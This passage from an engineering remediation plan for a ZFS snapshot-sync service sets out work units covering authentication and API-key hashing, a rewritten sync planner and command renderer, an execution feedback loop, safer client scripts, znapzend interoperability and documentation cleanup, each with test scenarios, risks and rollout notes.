- Scope reconciliation to what the client reported. `delete_snapshots_not_in_set` gains a scope argument so a batch covering one dataset can only prune that dataset. Today a paginated client, a single-dataset report, or a client crashing mid-upload silently destroys the rest of that system's recorded history — which is the exact state used to compute incremental bases.
- Return an envelope with `created`, `updated`, `deleted` and `failed` instead of `List[SnapshotResponse]`. The `failed` list is already built and then discarded; callers get `201` and no way to know rows were rejected.
- Remove the duplicate `/snapshots/compare-dataset` registration, keeping the pool-agnostic handler that is currently unreachable.

**Execution note:** Add a characterization test for the current reconciliation behaviour before changing it. The destructive scope may be load-bearing for a client script, and the blast radius needs pinning down first.

**Test scenarios:**
- Happy path: a batch of 50 snapshots is stored; re-POSTing the identical batch changes no row count and reports `updated: 50, created: 0`.
- Happy path: a dataset arriving pool-prefixed and the same dataset arriving bare normalise to the same stored record.
- Edge case: a batch covering only dataset `A` leaves dataset `B`'s records for the same system untouched.
- Edge case: an empty batch is a no-op and never triggers a prune.
- Edge case: a batch that omits a previously reported snapshot *within its own scope* deletes that record.
- Error path: a batch where 3 of 50 rows violate a constraint returns `created: 47, failed: 3` with per-row reasons.
- Integration: `GET /snapshots/compare-dataset` resolves to the pool-agnostic handler.
- Integration: ingesting the same inventory ten times leaves row count and every downstream comparison unchanged.

**Verification:** Repeated reports are stable; partial reports never prune outside scope; stored paths are canonical; partial failures reach the caller.

---

### U7. Authenticate the API surface and hash API keys

**Goal:** Require authentication on every endpoint that reads or writes fleet data, and stop storing key material in plaintext.

**Requirements:** R12

**Dependencies:** U2, U5

**Files:**
- Modify: `zfs_sync/services/auth.py`, `zfs_sync/api/middleware/auth.py`
- Modify: `zfs_sync/database/models.py`, `zfs_sync/database/repositories/system_repository.py`
- Modify: `zfs_sync/api/routes/sync.py`, `snapshots.py`, `sync_groups.py`, `conflicts.py`, `systems.py`
- Modify: `zfs_sync/api/app.py`
- Create: `alembic/versions/005_hash_api_keys.py`
- Test: `tests/unit/test_services/test_auth.py`
- Test: `tests/integration/test_api/test_auth_coverage.py`

**Approach:**
- Store `api_key_hash` and compare in constant time. Plaintext is returned once, at creation or rotation.
- Apply `get_current_system` to every route touching fleet data — currently 5 of 50 are protected. That includes the destructive ones: `DELETE /systems/{id}` cascades to all its snapshots, `DELETE /snapshots/system/{id}` wipes an inventory, and `POST /snapshots/batch` prunes.
- Decide how `POST /systems` is protected. It is unauthenticated *and returns a valid API key*, so anyone reachable can self-issue credentials. Either a bootstrap token or an admin key; the choice is made during implementation and documented.
- Drop the `last_seen` write from `validate_api_key`; a write on every authenticated request is contention and noise. Liveness belongs to the existing heartbeat endpoint.
- Add an integration test that enumerates the app's routes and asserts every non-exempt route rejects an unauthenticated request. This is the guard that stops the gap reopening.
- Fix CORS: `allow_origins=["*"]` with `allow_credentials=True` is invalid per spec and the wrong default for a service returning infrastructure topology. Drive origins from settings.

**Execution note:** Coordinate the hash migration with the live fleet — existing plaintext keys must either be hashed in place during migration or rotated, and operators need the steps before it runs.

**Test scenarios:**
- Happy path: a valid key authenticates and resolves to the owning system; a rotated key works and its predecessor does not.
- Edge case: no plaintext key remains in the `systems` table after creation.
- Edge case: authenticating issues no write and does not update `last_seen`.
- Error path: absent, malformed and unknown keys all return 401 with `WWW-Authenticate`.
- Error path: acting on another system's resources returns 403.
- Error path: unauthenticated `DELETE /systems/{id}` and `POST /snapshots/batch` are rejected and change nothing.
- Integration: the route-enumeration test fails when a new route is added without auth or an explicit exemption.
- Integration: a preflight from a configured origin succeeds; from an unconfigured origin it does not.

**Verification:** No unauthenticated route exposes hostnames, SSH identities, pools, datasets or instructions, and none can destroy data.

---

### U8. Test infrastructure: application factory and real startup coverage

**Goal:** Remove the production branch that hides the buggiest code from the test suite, and give tests the fixtures they need to exercise authenticated, multi-system scenarios.

**Requirements:** R16

**Dependencies:** U7

**Files:**
- Modify: `zfs_sync/api/app.py`
- Modify: `tests/conftest.py`
- Modify: `pyproject.toml`
- Create: `tests/unit/test_app_startup.py`
- Create: `tests/unit/test_config/test_validation_paths.py`

**Approach:**
- Replace `_running_under_pytest()` with a `create_app(settings)` factory. Startup currently short-circuits under pytest, so configuration validation, `init_db()` and the scheduler have **zero** coverage — which is exactly where the scheduler no-op, the event-loop blocking, and the log-directory validation bug live.
- Fix `validate_log_directory()`, which checks `Path("logs")` relative to the working directory and has no relationship to `settings.log_file`. Startup validation passes while the real log target is unwritable, and the failure then surfaces only as a swallowed `UserWarning`.
- Fix the dashboard static paths. `app.py` resolves `static_dir` to the repo-root `static/`, creates it empty, then skips mounting it because it is empty — while `routes/dashboard.py` serves markup referencing six `/static/dashboard/...` assets. All six 404, so the dashboard is broken as shipped.
- Give `conftest.py` per-test database isolation (the current module-level shared temp file makes tests order-dependent and unsafe under `pytest-xdist`), plus authenticated-client and API-key fixtures, plus a multi-system hub-and-spoke fixture for U10.
- Apply the declared pytest markers. `unit`, `integration`, `slow`, `benchmark` and `database` are declared with `--strict-markers` and applied by no test, so `pytest -m unit` returns nothing and the CI benchmark job is permanently vacuous.

**Test scenarios:**
- Happy path: `create_app()` with test settings runs the real startup path including configuration validation.
- Happy path: the authenticated-client fixture produces a client whose requests carry a valid key for a known system.
- Edge case: startup with an unwritable log directory fails validation with a message naming the actual configured path.
- Edge case: tests run correctly under `pytest -n 4` with no shared-database interference.
- Edge case: `pytest -m unit` and `pytest -m integration` each select a non-empty, disjoint set.
- Integration: a request for `/static/dashboard/css/dashboard.css` returns 200, not 404.
- Integration: the scheduler can be started and stopped within a test without a real network or a real fleet.

**Verification:** Startup, configuration validation and scheduler paths have coverage; the dashboard serves its assets; the suite is parallel-safe.

---

### U9. Pure sync policy module

**Goal:** Express every time-window and eligibility rule as pure, clock-injected functions — the foundation of the planner, and the answer to the current situation where the tested code is not the executed code.

**Requirements:** R4, R6, R14

**Dependencies:** U1

**Files:**
- Create: `zfs_sync/services/sync/policy.py`, `zfs_sync/services/sync/__init__.py`
- Modify: `zfs_sync/config/settings.py`
- Test: `tests/unit/test_services/test_sync_policy.py`

**Approach:**
- `choose_send_window(source, target, now, min_age_hours, min_gap_hours)` implements R6 in one place, returning either a window or a reason code. It never logs and never raises for ordinary outcomes.
- Reject a base newer than the chosen end. The current `_find_incremental_base` picks the most recent snapshot common to both across *all* snapshots, while the end is restricted to midnight snapshots — so a target holding a newer non-midnight snapshot that also exists on the hub yields `zfs send -I <newer> <older>`, which is reversed and invalid.
- Make the snapshot-name convention a configurable pattern rather than `name.endswith("-000000")`. That hardcoded rule means any site not using the Zengenti convention gets zero sync detection, silently, and it is the single largest blocker to both open-sourcing and znapzend interop.
- Move the two hardcoded `72` literals (`sync_coordination.py:375` and `MIN_SNAPSHOT_GAP_HOURS`) into settings, and pass thresholds in as arguments so the policy has no module-level constants baked into its logic.
- Keep `normalize_to_utc` — naive/aware mixing is a real hazard here and the existing normalisation is correct.

**Execution note:** Implement test-first. The rules are precisely specified in `docs/MISMATCH_FILTERING_ANALYSIS.md` under "Target Behaviour", and its worked example is a ready-made acceptance case.

**Test scenarios:**
- Happy path: source through `2025-12-03-120000`, latest common `2025-10-30-000000`, `now = 2025-12-04T09:13:30Z`, `min_age = 72h` → base `2025-10-30-000000`, end `2025-12-01-000000`. The documented case; must pass exactly.
- Happy path: target already holds the latest eligible source snapshot → `in_sync_within_window`.
- Edge case: every source snapshot newer than `now − 72h` → `no_eligible_ending_snapshot`.
- Edge case: no snapshot common to both → `no_common_base`.
- Edge case: the only common snapshot is the chosen end → `base_equals_end`.
- Edge case: a common snapshot newer than the chosen end → `base_newer_than_end`, never a reversed window.
- Edge case: exactly 72.0 hours between base and end — the boundary is asserted explicitly, since the `>` versus `>=` ambiguity is named as a root cause in the analysis docs.
- Edge case: mixed naive and timezone-aware timestamps give the same result as all-aware input.
- Edge case: empty source, empty target, and both empty each return a reason code rather than raising.
- Edge case: a non-default `min_age_hours` shifts the chosen end accordingly.
- Edge case: a configured naming pattern matching znapzend-style names selects ends correctly; a pattern matching nothing yields `no_eligible_ending_snapshot`.

**Verification:** The module imports nothing from `sqlalchemy`, `zfs_sync.database`, or `datetime.now` — time enters only as a parameter. Branch coverage is complete.

---

### U10. Sync planner replacing the legacy coordination services

**Goal:** One planner that enumerates every `(sync_group, dataset, source, target)` pair, applies the policy, and returns a typed `SyncDecision` for each — including the ones it declines. This is the unit that fixes multi-target fan-out.

**Requirements:** R4, R5, R7

**Dependencies:** U5, U8, U9

**Files:**
- Create: `zfs_sync/services/sync/planner.py`, `zfs_sync/services/sync/types.py`
- Modify: `zfs_sync/database/repositories/snapshot_repository.py`
- Delete: `zfs_sync/services/sync_queries.py`, `tests/unit/test_services/test_sync_queries.py`
- Test: `tests/unit/test_services/test_sync_planner.py`
- Test: `tests/unit/test_services/test_sync_planner_multitarget.py`

**Approach:**
- Enumerate pairs explicitly: for a directional group, `(hub → each target)` per dataset. The pair is the unit of work everywhere downstream, which is what stops targets being silently dropped.
- Emit a `SyncDecision` for every pair considered, carrying action, reason, evidence, and — when syncing — the policy's chosen base and end.
- Define typed domain objects in `types.py`; no `Dict[str, Any]` crosses a module boundary.
- Replace the N+1 pattern with batched reads. Today `_get_datasets_for_systems` loads every snapshot row for every system into Python just to collect distinct dataset names, then `get_by_dataset` is re-issued four or more times per dataset per target, and `determine_sync_actions` re-runs the entire mismatch scan a second time purely to emit a log line.
- Order by timestamp, not lexically. `sync_coordination.py:644` compares snapshot names with `>` and the comment concedes "lexical compare may suffice due to timestamp naming" — the timestamps are already loaded.
- Delete `sync_queries.py` and its tests; the module's public functions and the service's private duplicates collapse into the planner.
- Do not carry the bidirectional branch forward. It is unreachable because `detect_sync_mismatches` returns early for non-directional groups.

**Execution note:** Write characterization tests capturing the current planner's output for a representative fixture before deleting anything, so behavioural differences are reviewed rather than discovered in production.

**Test scenarios:**
- Happy path: hub ahead of one target on one dataset → exactly one `sync` decision with the policy's base and end.
- Happy path: hub ahead of **three** targets on the same dataset → **three** decisions, each with its own target system, pool and SSH identity. No target merged or dropped. This is the R5 regression test.
- Happy path: two datasets behind on two targets → four independent decisions.
- Edge case: the same dataset name on different pools across systems resolves to the correct per-system pool, not the first found.
- Edge case: a target with no snapshots for the dataset → a full-send decision.
- Edge case: a target ahead of the hub → `target_diverged`.
- Edge case: a disabled group, a group with fewer than two systems, and a hub not in its own group each yield no decisions with a stated reason.
- Edge case: duplicate snapshot rows for the same natural key do not change the selected base or end.
- Error path: an unknown sync group raises a typed domain error, not a bare `ValueError` reaching the client as a 500.
- Error path: a target with no `ssh_hostname` → `missing_ssh_identity`, not a silent `continue` producing an action with `sync_command: None`.
- Integration: planning a 3-system × 50-dataset group issues a bounded number of queries, asserted against a query counter, rather than scaling with dataset count.

**Verification:** Every considered pair appears in the output with a reason; `sync_queries.py` is gone and nothing imports it.

---

### U11. Command renderer

**Goal:** Generate correct, safe commands from a decision, using the target's real SSH identity — which the current generator discards.

**Requirements:** R8

**Dependencies:** U2, U6, U10

**Files:**
- Create: `zfs_sync/services/sync/renderer.py`
- Delete: `zfs_sync/services/ssh_command_generator.py`
- Test: `tests/unit/test_services/test_sync_renderer.py`

**Approach:**
- Take the whole SSH identity — hostname, user, port — from the target system. The live path hardcodes `ssh {hostname}`, so any target on a non-default port or requiring a user gets a command that cannot work. The correct helper exists (`generate_ssh_command`) but is only reachable from the unused pull-shaped builder.
- Collapse the two parallel command builders into one. Two mental models in one 260-line file is why the correct one went unused.
- Carry forward U2's escaping of the SSH target, and keep `shlex.quote` on every interpolated value.
- Delete the `if "/" in dataset:` heuristics, which exist only to cope with the double-prefixed data that U6 now normalises at ingest.
- Make receive flags explicit and reviewable. `-s` for resumability is current behaviour; whether `-F` is appropriate is a policy question the decision carries, not a constant baked into a string.

**Test scenarios:**
- Happy path: incremental render produces `zfs send -c -I pool/ds@base pool/ds@end | ssh host 'zfs receive -s tgtpool/ds'`, base before end.
- Happy path: a target with `ssh_user = "backup"` and `ssh_port = 2222` renders `ssh -p 2222 backup@host`.
- Happy path: full send omits `-I` and the base.
- Edge case: differing source and target pool names appear in the correct positions.
- Edge case: a normalised dataset is never double-prefixed with its pool.
- Edge case: a dataset or pool containing a space or `;` is quoted such that no second command can execute.
- Error path: rendering without a complete SSH identity raises a typed error rather than emitting `ssh None`.
- Error path: rendering with base equal to, or newer than, end raises — the policy should already have rejected it and the renderer must not paper over it.

**Verification:** Rendered commands are byte-for-byte asserted for the documented worked example; no command can be produced without a complete SSH identity.

---

### U12. Structured responses, consistent errors, and retirement of the legacy services

**Goal:** Make the API tell the truth — every declined pair returned as data, every domain error mapped to the right status — and delete the code this plan has replaced.

**Requirements:** R7, R4

**Dependencies:** U10, U11

**Files:**
- Modify: `zfs_sync/api/routes/sync.py`, `zfs_sync/api/schemas/sync.py`
- Create: `zfs_sync/api/errors.py`
- Modify: `zfs_sync/api/app.py`, `zfs_sync/logging_config.py`
- Delete: `zfs_sync/services/sync_coordination.py`, `zfs_sync/services/sync_validators.py`, `zfs_sync/models/` (retaining `SyncStatus`)
- Modify: `zfs_sync/services/conflict_resolution.py`
- Modify: `zfs_sync/static/dashboard/js/api-client.js`, `zfs_sync/static/dashboard/js/dashboard.js`
- Test: `tests/integration/test_api/test_sync.py`, `tests/integration/test_api/test_error_envelope.py`

**Approach:**
- `/sync/instructions/{system_id}` returns `datasets` alongside `declined` — every pair considered and not actioned, with reason code and evidence. The `include_diagnostics` flag disappears; there is nothing left to hide behind it. An empty `datasets` with a populated `declined` is now self-explaining.
- Register exception handlers in `app.py`. There is currently no global handler at all, and coverage is wildly uneven: `conflicts.py` has zero `HTTPException` raises across five routes, while the same "sync group not found" condition returns 404 on `/analysis` and 500 on `/mismatches` and `/actions`. Typed domain errors map once; unhandled exceptions return a correlation ID that also appears in the log line, instead of leaking `str(e)` with internal paths and SQL.
- Correct log levels. `sync_validators.py:159` emits a WARNING on *every* check regardless of outcome, and `_log_conflict` warns on every conflict every cycle — a healthy system emits continuous WARNINGs, which is most of why `log.txt` reached 827 KB. Routine outcomes become DEBUG/INFO.
- Delete `zfs_sync/models/`, keeping `SyncStatus`. Every entity is currently modelled three times and this layer has no production consumer.
- Retire the old services and repoint `conflict_resolution.py` at the planner.
- Update the dashboard client for the new shapes and surface `declined` reasons in the UI — where an operator will actually look.

**Execution note:** This unit deletes `sync_coordination.py` and `sync_validators.py`. Land only once U9–U11 are green, updating `test_sync_coordination.py`, `test_sync_mismatch_detection.py`, `test_conflict_resolution.py` and `test_snapshot_comparison.py` in the same change.

**Test scenarios:**
- Happy path: a fleet with one lagging target returns one instruction plus a `declined` entry for every other pair considered.
- Happy path: a fully in-sync fleet returns `datasets: []` with a non-empty `declined`, each reading `in_sync_within_window` — distinguishable from failure.
- Edge case: a group where every pair is declined for a different reason returns each distinct code.
- Error path: `/sync/groups/{unknown}/mismatches` and `/actions` both return 404, matching `/analysis`.
- Error path: an unexpected exception returns 500 with a correlation ID greppable in the logs, and no internal path or SQL in the body.
- Error path: a foreign-key violation on sync-group creation returns 400, not 500.
- Integration: a full planner run at INFO emits no WARNING lines when every outcome is routine.
- Integration: the dashboard renders decline reasons for a group with zero instructions.

**Verification:** No suppression path is visible only in logs; identical conditions return identical status codes across routes; the legacy services are gone.

---

### U13. Execution feedback loop and a scheduler that does its job

**Goal:** Close the loop. Clients report what happened; the witness records it, projects it into `sync_states`, and stops claiming work it never did.

**Requirements:** R9, R10

**Dependencies:** U5, U8, U12

**Files:**
- Modify: `zfs_sync/api/routes/sync.py`, `zfs_sync/api/schemas/sync.py`
- Create: `zfs_sync/services/sync/outcomes.py`
- Modify: `zfs_sync/services/sync_scheduler.py`, `zfs_sync/api/routes/dashboard.py`
- Test: `tests/unit/test_services/test_sync_outcomes.py`, `tests/unit/test_services/test_sync_scheduler.py`
- Test: `tests/integration/test_api/test_sync_results.py`

**Approach:**
- Add `POST /sync/results`: the authenticated system reports the pair, the window it sent, status, bytes transferred, duration and any error. This is the first time the witness learns whether its instructions worked.
- Persist to `sync_runs` (append-only) and project the latest outcome into `sync_states` (current status). The projection becomes the single writer of `sync_states` in the automatic path.
- Fix the scheduler. `_process_sync_group` discards the planner's output while claiming to update sync states; it now records decisions and updates state for real.
- Move the synchronous SQLAlchemy work into a worker thread. It currently runs blocking DB calls directly inside an `async` task via `db = next(get_db())`, which also bypasses the generator's `finally: db.close()` — so a scan both stalls the single-worker API and leaks sessions.
- Remove the `incremental_sync_only` dead branch that logs "full syncs not yet implemented" — implement it or delete the flag, rather than leaving a config option that silently does nothing.
- Surface last-run outcomes on the dashboard, which finally has real data behind it.

**Test scenarios:**
- Happy path: a success result creates a `sync_runs` row and flips `sync_states` for that pair to `in_sync` with `last_sync` set.
- Happy path: a failure result records the error and leaves `sync_states` as `error` with the message, visible via `/sync/groups/{id}/status`.
- Happy path: a scheduler pass writes `sync_states` for every pair the planner evaluated, not only those with conflicts.
- Edge case: two results for the same pair — the later wins the projection, both persist in history.
- Edge case: a result naming a snapshot the source no longer reports is recorded and flagged rather than rejected.
- Error path: a result for another system returns 403; for an unknown group, 404 in the U12 envelope.
- Integration: `/health` stays responsive while a large group is processed — the event loop is not blocked.
- Integration: no database session is leaked across a scheduler cycle.
- Integration: after a pass over a 3-system group, `/sync/groups/{id}/status` reports non-zero totals where it previously reported zero.

**Verification:** `sync_states` is populated by the automatic path; the status summary and dashboard reflect real outcomes; a pass neither stalls the API nor leaks sessions.

---

### U14. Client scripts rewritten against the real contract

**Goal:** Ship client scripts that work and that do not execute server-supplied strings as root.

**Requirements:** R13, R9

**Dependencies:** U12, U13

**Files:**
- Modify: `docs/templates/sync_executor.sh`, `docs/templates/zfs_sync_client.sh`, `docs/templates/zfs_sync_report.sh`, `docs/templates/system_ssh_config.yaml`
- Modify: `docs/OPERATIONS_GUIDE.md`, `docs/SETUP_GUIDE.md`
- Test: `tests/integration/test_api/test_client_contract.py`

**Approach:**
- Rewrite `sync_executor.sh` against the real payload. It parses `.actions[]` from a response that only has `datasets`, so it has never synced anything.
- Fix the endpoint and parameter drift. All three scripts and six documentation locations use `include_commands=true`, which no endpoint accepts and which FastAPI silently ignores — the flag has never done anything. Four locations document `POST /api/v1/systems/register`, a route that does not exist; it is `POST /api/v1/systems`.
- Stop `eval`-ing server strings. The client reconstructs the invocation from the structured fields and runs it as an argument vector. The witness ships intent; the client decides how to execute it. The rendered command stays in the response for operator display and dry-runs.
- Wire up the outcome reporting that is currently commented out, POSTing to the U13 endpoint.
- Make the three scripts share one contract; `zfs_sync_report.sh` already uses the correct shape and is the reference.
- Add a contract test asserting the API response contains exactly the fields the scripts parse. The absence of this test is why `sync_executor.sh` drifted into being non-functional without anyone noticing.

**Execution note:** Keep `DRY_RUN` working end to end; it is the safest way for operators to validate the rewrite against the real fleet before enabling execution.

**Test scenarios:**
- Happy path: the contract test asserts every `jq` path used by the scripts exists in a real response.
- Happy path: a dry run against a seeded API prints the expected plan and executes nothing.
- Edge case: an empty `datasets` with populated `declined` makes the script report *why* nothing ran.
- Edge case: a dataset name containing shell metacharacters is passed as an argument vector and cannot execute a second command.
- Error path: a 401 exits non-zero with an actionable message rather than being swallowed by `curl -f`.
- Error path: a failed `zfs send` is reported to `/sync/results` with captured stderr, and the script exits non-zero.
- Integration: a successful run POSTs a result that flips `sync_states` to `in_sync`.

**Verification:** A client run against a seeded fleet produces instructions, executes them under dry-run, reports outcomes, and passes no server string to `eval`.

---

### U15. znapzend interoperability

**Goal:** Let znapzend own snapshot creation and retention without zfs_sync misreading its output or fighting its pruning.

**Requirements:** R14

**Dependencies:** U9, U10, U13

**Files:**
- Modify: `zfs_sync/config/settings.py`, `zfs_sync/config/validation.py`, `zfs_sync/services/sync/policy.py`
- Create: `docs/ZNAPZEND_INTEGRATION.md`, `docs/templates/znapzend_report_hook.sh`
- Test: `tests/unit/test_services/test_sync_policy_znapzend.py`
- Test: `tests/integration/test_api/test_znapzend_interop.py`

**Approach:**
- Exercise U9's configurable naming against real znapzend output. Its `%Y-%m-%d-%H%M%S` naming is compatible in shape with the legacy convention but is **not midnight-only**, so the old hardcoded check would ignore nearly every snapshot it creates.
- Handle znapzend's retention as expected behaviour, not an anomaly. When it prunes a snapshot zfs_sync had chosen as an incremental base, the planner must detect the base is gone and re-plan, rather than emitting a `zfs send -I` against a snapshot that no longer exists — a failure currently invisible to the witness.
- Ship a post-snapshot hook template so znapzend reports inventory after it runs, keeping the witness's view fresh.
- Document the division of responsibility plainly: znapzend creates, prunes and can replicate; zfs_sync observes, verifies fleet-wide, plans cross-system replication where znapzend is not already doing it, and is the audit trail.

**Execution note:** Validate the naming assumptions against a real znapzend host. This is the one unit whose correctness cannot be established from the repository alone.

**Test scenarios:**
- Happy path: znapzend-named snapshots are ingested, matched by the configured pattern, and planned over correctly.
- Happy path: a mixed fleet — some hosts on znapzend naming, some on the legacy convention — plans correctly for both.
- Edge case: the chosen base disappears between planning and the next run; the next plan selects a new base rather than repeating the stale one.
- Edge case: znapzend prunes every common snapshot → `no_common_base` and a full-send decision.
- Edge case: a pattern matching nothing yields `no_eligible_ending_snapshot` with a clear reason, not a silent empty result.
- Error path: an invalid naming pattern fails `validate_configuration` at startup with a message naming the setting.
- Integration: the hook template posts an inventory the API accepts and the planner then uses.

**Verification:** A znapzend-managed host is planned over end to end; retention-driven base disappearance never produces an impossible command.

---

### U16. Documentation consolidation

**Goal:** Reduce ~8,400 lines of Markdown across 19 files — more documentation than code — to a set that is accurate, non-overlapping and safe to publish.

**Requirements:** R15

**Dependencies:** U12, U13, U14

**Files:**
- Modify: `README.md`, `ARCHITECTURE.md`
- Delete: `QUICK_START.md`, `HOW_TO_USE.md`, `docs/GITHUB_PAGES_SETUP.md`, `docs/DASHBOARD_IMPLEMENTATION_PLAN.md`
- Modify: `docs/SETUP_GUIDE.md`, `docs/OPERATIONS_GUIDE.md`, `docs/TROUBLESHOOTING_GUIDE.md`, `docs/IMPROVEMENTS_ROADMAP.md`, `docs/DASHBOARD_GUIDE.md`
- Modify: `docs/SYNC_MISMATCH_BUG_ANALYSIS.md`, `docs/MISMATCH_FILTERING_ANALYSIS.md`, `docs/DATABASE_SCHEMA_UPDATE.md`
- Create: `CONTRIBUTING.md`, `SECURITY.md`, `AGENTS.md`
- Delete: `.github/agent-instructions.md`

**Approach:**
- Collapse the four documents that all teach installation (README's Getting Started, `QUICK_START.md`, `HOW_TO_USE.md`, `docs/SETUP_GUIDE.md`) into one. They have drifted to different commands and paths.
- Resolve the two competing roadmaps (README's six-phase plan and `docs/IMPROVEMENTS_ROADMAP.md`) into one, and the three incompatible version stories (0.1.80, 0.2.0, "v2.0") into one.
- Fix the contradictory authentication story: README claims API key authentication is implemented, `agent-instructions.md` says core functionality requires none, and `DASHBOARD_IMPLEMENTATION_PLAN.md` says "internal use only". After U7 there is one true answer.
- Mark the three incident post-mortems as historical, sanitised of live UUIDs, hostnames and the `ssh hqs7-san` command. Their analysis is worth keeping; their "Files Modified" sections describe fixes that were never wired in and must say so.
- Migrate `.github/agent-instructions.md` to `AGENTS.md`, correcting the eight claims that are false against the code — including "API keys are stored hashed", "Structured logging with JSON output", "SQLAlchemy 2.0 with async support", and a `get_api_key_auth` dependency that does not exist. Add the "never run zfs or ssh directly" rule and the ingest normalisation invariant from U6.
- Add `CONTRIBUTING.md` and `SECURITY.md`, both expected of a public repository.
- Rewrite the runbook sections around decline reason codes: "why is nothing syncing?" should be answerable from an API response.

**Test scenarios:**
- Happy path: every endpoint path and query parameter named in documentation exists in the OpenAPI schema — automated as a link-check style test.
- Edge case: no document references `include_commands` or `POST /systems/register`.
- Edge case: one version string appears across `pyproject.toml`, `zfs_sync/__init__.py`, config and docs.
- Edge case: no published document contains a live UUID, internal hostname or internal dataset name.
- Test expectation: prose consolidation itself needs no unit test beyond the automated checks above.

**Verification:** Documentation describes the code as it is; no published file contains internal infrastructure detail; a newcomer has exactly one installation path to follow.

---

## System-Wide Impact

- **Interaction graph:** `conflict_resolution.py` is the only other production consumer of `SyncCoordinationService` and moves to the planner in U12. The scheduler, all `/sync/*` routes, the dashboard JS, and all three client scripts consume shapes this plan changes.
- **Error propagation:** Domain errors become typed and are mapped once in `app.py`. The current pattern — services raising bare `ValueError` while each route independently decides whether to catch it — is why the same condition returns 404 on one endpoint and 500 on another, and why `conflicts.py` raises no `HTTPException` at all.
- **State lifecycle risks:** U5's constraints and U6's ingestion change touch the largest table, and the deduplicating migration must be validated against a production-sized copy. `sync_states` gains a second writer (U13's projection) alongside conflict resolution; the unique constraint prevents the two racing. U4's recovery procedure alters schema on databases that have never received a migration.
- **API surface parity:** Three shell clients plus the dashboard parse these responses. The contract test in U14 is what keeps them in step; its absence is precisely why `sync_executor.sh` became non-functional unnoticed.
- **Integration coverage:** Multi-target fan-out (U10) cannot be proven by unit tests over a single pair — it needs a seeded one-hub/three-target fixture exercised through the API. The scheduler's event-loop behaviour (U13) similarly needs an integration assertion, not a unit test.
- **Unchanged invariants:** The witness never executes `zfs` or `ssh`. `SystemModel`, `SyncGroupModel` and the association table keep their shape and semantics. Route paths and the `/api/v1` prefix are unchanged except for the added `/sync/results`. The repository pattern and `get_db` dependency are unchanged. SQLite remains the development default and PostgreSQL the production option.

---

## Risk Analysis & Mitigation

| Risk | Likelihood | Impact | Mitigation |
|---|---|---|---|
| The rewrite changes planning behaviour in ways nobody notices until a backup is missing | Medium | High | Characterization tests before deletion (U10); `declined` reasons make every decision auditable; run old and new planners side by side against production data before cutover |
| The schema-recovery procedure damages a production database that has never been migrated | Medium | High | Rehearse against a real copy (U4); documented backup prerequisite; reversible downgrade path verified in CI |
| The deduplicating migration loses snapshot rows | Medium | High | Rehearse on a production-sized copy; deduplicate before constraining; backup as a documented prerequisite |
| Enabling auth everywhere locks out the live fleet mid-flight | High | High | U2 lands the exploitable fixes first without changing auth posture; U7 stages enforcement behind a key-distribution window; the route-enumeration test lists exactly what changes |
| API-key hashing strands systems whose plaintext keys cannot be recovered | Medium | Medium | Decide hash-in-place versus forced rotation against the real deployment during U7; document operator steps before the migration runs |
| The now−72h policy suppresses syncs an operator expects to see | Medium | Medium | Every suppression returns a reason code (U12); thresholds configurable (U9); the documented worked example is a locked acceptance test |
| Clients break when response shapes change | High | Medium | U14 ships the scripts with the change; the contract test fails CI on drift; `declined` is additive and `datasets` keeps its shape |
| znapzend naming assumptions prove wrong | Medium | Medium | Configurable pattern rather than hardcoded convention (U9); validate against a real host (U15) |
| Scope is large enough to stall before the loop closes | Medium | Medium | Phased delivery below is ordered so each phase is independently valuable and shippable |
| `log.txt` remains recoverable in git history after publication | Medium | Medium | Decide history rewrite versus forward-untrack explicitly in U3, before the repository goes public |

---

## Phased Delivery

### Phase 1 — Stop the bleeding (U1, U2, U3)
Restore a buildable `main`, close the credential leak and the injection chain, and make the repository legally publishable. Independently valuable: CI goes green and the two exploitable defects are gone.

### Phase 2 — Trustworthy foundations (U4, U5, U6, U7, U8)
Working migrations, corrected schema, normalised and idempotent ingestion, authentication everywhere, and a test harness that exercises the paths currently hidden. Shippable on its own as a security and data-integrity release.

### Phase 3 — The rewrite (U9, U10, U11, U12)
Policy, planner, renderer, responses. The old services and the dead model layer are deleted at the end of U12. This is the phase that makes the product do what it claims.

### Phase 4 — Close the loop (U13, U14)
Outcome reporting, a working scheduler, and clients that function. This is where the system stops being open-loop.

### Phase 5 — Partnership and publication (U15, U16)
znapzend interop and documentation consolidation, once there is a correct core for both to describe.



---

## Documentation Plan

Covered as implementation work in U16 rather than left as an afterthought, because several documents actively mislead: `.github/agent-instructions.md` contains eight claims that are false against the code, `docs/MISMATCH_FILTERING_ANALYSIS.md` describes a fix that was never wired in, and the authentication story contradicts itself across three files. Roughly 2,730 lines of generic CI and project-template material (`PROJECT_SETUP_GUIDE.md`, `GITHUB_ACTIONS_GUIDE.md`, `GITHUB_ACTIONS_PROMPTS.md`) have no relationship to ZFS and are listed under Deferred to Follow-Up Work for externalisation to a template repository.

---

## Operational / Rollout Notes

- **Order matters.** U1 before anything. U2 before the repository is shown to anyone. U4's recovery needs a backup and a rehearsal. U7's enforcement needs a key-distribution window.
- **Shadow the rewrite.** Before cutover, run the new planner read-only against production data and diff its decisions against current behaviour. Differences are expected — the point is that each one is explained rather than discovered later.
- **Expect log volume to drop sharply.** Correcting levels in U12 removes per-check WARNING lines; revisit `docker/logrotate.conf` once real volume is known.
- **The dashboard is currently broken as shipped** (assets 404, SSE never fires). U8 fixes the asset paths; the SSE decision is deferred. Set operator expectations accordingly.
- **Rollback.** Phases 1–2 are independently revertible. Phase 3 deletes the legacy services; keep the pre-rewrite tag available and confirm the Alembic downgrade path before it ships.

---

## Sources & References

- Existing analysis: [docs/SYNC_MISMATCH_BUG_ANALYSIS.md](docs/SYNC_MISMATCH_BUG_ANALYSIS.md), [docs/MISMATCH_FILTERING_ANALYSIS.md](docs/MISMATCH_FILTERING_ANALYSIS.md) — correct diagnosis, fixes never wired in
- Rewrite targets: `zfs_sync/services/sync_coordination.py`, `zfs_sync/services/sync_validators.py`, `zfs_sync/services/sync_queries.py`
- Contract reference: `docs/templates/zfs_sync_report.sh` (correct), `docs/templates/sync_executor.sh` (broken)
- Breaking commit: `a857c94` — merge that committed conflict markers into four tracked files
- Schema workaround adopted in place of migrations: `docs/DATABASE_SCHEMA_UPDATE.md`, `docs/fix_sync_states_schema.sql`
- Agent guidance requiring correction: `.github/agent-instructions.md`
- Roadmap context: [docs/IMPROVEMENTS_ROADMAP.md](docs/IMPROVEMENTS_ROADMAP.md), [ARCHITECTURE.md](ARCHITECTURE.md)
